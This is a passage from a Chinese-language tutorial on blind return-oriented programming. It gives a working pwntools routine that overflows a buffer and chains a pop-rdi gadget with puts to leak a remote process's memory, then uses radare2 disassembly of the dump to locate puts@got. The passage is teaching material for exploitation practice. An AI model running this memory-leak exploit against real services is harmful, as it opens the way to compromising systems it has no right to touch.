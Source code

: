 #### remote dump
有了 puts，有了 gadget，就可以着手 dump 程序了：
```python
def dump_memory(buf_size, stop_addr, gadgets_addr, puts_plt, start_addr, end_addr):
    pop_rdi  = gadgets_addr + 9     # pop rdi; ret

    result = ""
    while start_addr < end_addr:
        #print result.encode('hex')
        sleep(0.1)
        payload  = "A"*buf_size
        payload += p64(pop_rdi)
        payload += p64(start_addr)
        payload += p64(puts_plt)
        payload += p64(stop_addr)
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.sendline(payload)
            data = p.recv(timeout=0.1)      # timeout makes sure to recive all bytes
            if data == "\n":
                data = "\x00"
            elif data[-1] == "\n":
                data = data[:-1]
            log.info("leaking: 0x%x --> %s" % (start_addr,(data or '').encode('hex')))
            result += data
            start_addr += len(data)
            p.close()
        except:
            log.info("Can't connect")
    return result
```
我们知道 puts 函数通过 `\x00` 进行截断，并且会在每一次输出末尾加上换行符 `\x0a`，所以有一些特殊情况需要做一些处理，比如单独的 `\x00`、`\x0a` 等，首先当然是先去掉末尾 puts 自动加上的 `\n`，然后如果 recv 到一个 `\n`，说明内存中是 `\x00`，如果 recv 到一个 `\n\n`，说明内存中是 `\x0a`。`p.recv(timeout=0.1)` 是由于函数本身的设定，如果有 `\n\n`，它很可能在收到第一个 `\n` 时就返回了，加上参数可以让它全部接收完。

这里选择从 `0x400000` dump到 `0x401000`，足够了，你还可以 dump 下 data 段的数据，大概从 `0x600000` 开始。

#### puts@got
拿到 dump 下来的文件，使用 Radare2 打开，使用参数 `-B` 指定程序基地址，然后反汇编 `puts@plt` 的位置 `0x4005e7`，当然你要直接反汇编 `0x4005f0` 也行：
```
$ r2 -B 0x400000 code.bin
[0x00400630]> pd 14 @ 0x4005e7
     ::::   0x004005e7      25240a2000     and eax, 0x200a24
     ::::   0x004005ec      0f1f4000       nop dword [rax]
     ::::   0x004005f0      ff25220a2000   jmp qword [0x00601018]      ; [0x601018:8]=-1
     ::::   0x004005f6      6800000000     push 0
     `====< 0x004005fb      e9e0ffffff     jmp 0x4005e0
      :::   0x00400600      ff251a0a2000   jmp qword [0x00601020]      ; [0x601020:8]=-1
      :::   0x00400606      6801000000     push 1                      ; 1
      `===< 0x0040060b      e9d0ffffff     jmp 0x4005e0
       ::   0x00400610      ff25120a2000   jmp qword [0x00601028]      ; [0x601028:8]=-1
       ::   0x00400616      6802000000     push 2                      ; 2
       `==< 0x0040061b      e9c0ffffff     jmp 0x4005e0
        :   0x00400620      ff250a0a2000   jmp qword [0x00601030]      ; [0x601030:8]=-1
        :   0x00400626      6803000000     push 3                      ; 3
        `=< 0x0040062b      e9b0ffffff     jmp 0x4005e0
```
于是我们就得到了 puts@got 地址 `0x00601018`。可以看到该表中还有其他几个函数，根据程序的功能大概可以猜到，无非就是 setbuf、read 之类的，在后面的过程中如果实在无法确定 libc，这些信息可能会有用。
